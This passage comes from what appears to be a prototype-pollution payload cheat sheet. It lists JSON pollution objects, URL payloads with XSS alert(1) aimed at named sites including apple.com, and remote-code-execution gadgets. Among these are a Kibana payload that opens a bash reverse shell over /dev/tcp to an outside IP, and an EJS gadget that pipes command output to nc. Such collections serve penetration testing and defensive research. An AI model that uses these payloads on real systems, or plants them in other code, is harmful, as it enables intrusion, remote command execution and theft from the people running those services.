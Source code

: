 Asynchronous payload for NodeJS.

```js
{
  "__proto__": {
    "argv0":"node",
    "shell":"node",
    "NODE_OPTIONS":"--inspect=payload\"\".oastify\"\".com"
  }
}
```

Polluting the prototype via the `constructor` property instead.

```js
{
    "constructor": {
        "prototype": {
            "foo": "bar",
            "json spaces": 10
        }
    }
}
```

<br>

### Prototype Pollution in URL

Example of Prototype Pollution payloads found in the wild.

```ps1
https://victim.com/#a=b&__proto__[admin]=1
https://example.com/#__proto__[xxx]=alert(1)
http://server/servicedesk/customer/user/signup?__proto__.preventDefault.__proto__.handleObj.__proto__.delegateTarget=%3Cimg/src/onerror=alert(1)%3E
https://www.apple.com/shop/buy-watch/apple-watch?__proto__[src]=image&__proto__[onerror]=alert(1)
https://www.apple.com/shop/buy-watch/apple-watch?a[constructor][prototype]=image&a[constructor][prototype][onerror]=alert(1)
```

<br>

### Prototype Pollution Exploitation

Depending if the prototype pollution is executed client (CSPP) or server side (SSPP), the impact will vary.

- Remote Command Execution: [RCE in Kibana (CVE-2019-7609)](https://research.securitum.com/prototype-pollution-rce-kibana-cve-2019-7609/)
  ```js
  .es(*).props(label.__proto__.env.AAAA='require("child_process").exec("bash -i >& /dev/tcp/192.168.0.136/12345 0>&1");process.exit()//')
  .props(label.__proto__.env.NODE_OPTIONS='--require /proc/self/environ')
  ```
- Remote Command Execution: [RCE using EJS gadgets](https://mizu.re/post/ejs-server-side-prototype-pollution-gadgets-to-rce)
  ```js
  {
      "__proto__": {
          "client": 1,
          "escapeFunction": "JSON.stringify; process.mainModule.require('child_process').exec('id | nc localhost 4444')"
      }
  }
  ```
- Reflected XSS: [Reflected XSS on www.hackerone.com via Wistia embed code - #986386](https://hackerone.com/reports/986386)